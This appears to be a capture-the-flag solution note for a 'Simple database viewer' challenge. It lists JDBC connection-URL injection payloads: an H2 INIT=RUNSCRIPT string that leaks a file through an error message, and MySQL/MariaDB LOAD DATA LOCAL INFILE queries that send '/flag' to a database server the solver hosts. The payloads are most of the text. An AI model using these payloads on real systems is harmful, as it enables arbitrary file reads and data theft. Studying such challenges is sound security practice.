 # Simple database viewer

Hope is for people to go from jdbc error messages to something like [this](https://su18.org/post/jdbc-connection-url-attack/).

## h2 driver

`/?driver=h2:mem:1337;INIT=RUNSCRIPT FROM 'file&host=/flag';IGNORE_UNKNOWN_SETTINGS=&port=`
flag is printed in error message

## mariadb driver

host a mysql database <here>
`CREATE DATABASE mydb;`
`CREATE TABLE IF NOT EXISTS mydb.table1 (stuff VARCHAR(255));`
`/?driver=mysql&host=<here>&port=3306&username=root&password=asd&query=LOAD DATA LOCAL INFILE '/flag' INTO TABLE mydb.table1;`
tcpdump traffic for flag or `SELECT * from mydb.table1;`

## mysql driver

same idea but need to allowLoadLocalInfile=TRUE
`/?driver=mysql&host=<here>&port=3306?allowLoadLocalInfile=TRUE&username=root&password=asd&query=LOAD DATA LOCAL INFILE '/flag' INTO TABLE mydb.table1;`

## more?
